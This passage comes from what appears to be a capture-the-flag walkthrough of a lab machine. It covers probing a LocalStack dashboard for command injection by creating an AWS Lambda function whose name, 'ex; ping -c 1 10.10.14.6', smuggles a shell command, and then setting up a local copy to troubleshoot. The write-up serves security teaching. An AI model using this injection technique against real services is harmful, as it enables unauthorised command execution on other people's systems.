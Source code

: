 This is a shell page that uses JavaScript to load the rest of the application. That’s ok for now, but worth keeping in mind.

#### Initial Attempt

Given that the dashboard exists, this seems like a valuable path to explore. The exploit is simply putting an injection into the function name, and then visiting the dashboard. I tried some shots in the dark to get this to work, such as:

```

oxdf@hacky$ aws lambda create-function --function-name 'ex; ping -c 1 10.10.14.6' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler index.handler --runtime nodejs12.x
{
    "FunctionName": "ex; ping -c 1 10.10.14.6",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex; ping -c 1 10.10.14.6",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-role",
    "Handler": "index.handler",
    "CodeSize": 291,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2021-08-25T18:38:39.821+0000",
    "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "eefc33ce-bc21-4f97-963f-9a2aa2c3987d",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}

```

I’ll trigger the XSS to get the dashboard again and listen with `tcpdump`, but no ICMP arrived.

#### Local

Because this is a lot to troubleshoot over a waiting for XSS, I’ll set up a local copy. I had to move Burp to a different port, as LocalStack wants 8080. I have the `docker-compose.yml` file. In the directory with that file, I’ll run `docker-compose up`, and it starts.

On `http://127.0.0.1:8080` there’s a dashboard:

![image-20210825144301535](https://0xdfimages.gitlab.io/img/image-20210825144301535.png)

To interact with my local copy of LocalStack, I’ll use `awslocal` (from [here](https://github.com/localstack/awscli-local), `pip3 install awscli-local`) to avoid having to put the `--endpoint-url` string in to interact with the local copy, as well as making clear which instance I’m working with.

I’ll create a Lambda function:
